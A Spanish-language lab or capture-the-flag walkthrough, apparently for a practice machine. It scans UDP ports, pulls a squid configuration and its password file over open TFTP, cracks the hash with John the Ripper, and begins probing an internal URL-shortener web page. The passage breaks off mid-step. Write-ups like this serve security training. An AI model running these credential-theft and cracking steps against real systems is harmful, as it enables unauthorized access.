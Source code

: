 Como nada esta abierto intentamos scanear la maquina por UDP

#### NMAP UPD Scan {-}

Como los scan de **NMAP** en UDP tarda un buen rato, decidimos ir a por los puertos mas interesantes.

```bash
nmap -sU -p69,161 10.10.10.21 -oN udpScan
```

encontramos el puerto del tftp que esta abierto

#### TFTP {-}

```bash
tftp 10.10.10.21
```

Nos podemos conectar pero no podemos cojer ficheros como `/etc/passwd`, `/etc/hosts` y otros. Tiramos por el fichero de config de squid.

```bash
get /etc/squid/squid.conf
```

#### Check squid.conf file {-}

```bash
cat squid.conf | grep -v "^#" | sed '/^\s*$/d'
```

Vemos que hay un fichero password. Lo descargamos desde el **tftp**

```bash
get /etc/squid/passwords
```

Lo analizamos y encontramos un usuario y una contraseña encriptada.




## Evaluacion de vulnerabilidades {-}

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

Ya hemos crackeado la contraseña. Intentamos conectar por ssh pero no funciona.

Pues ponemos las credenciales en el foxyproxy.

### Conectamos por la web a la 127.0.0.1 {-}

Hay una pagina que propone shortear una url. Vamos a testear el servicio web

1. Nos creamos un servidor web con python
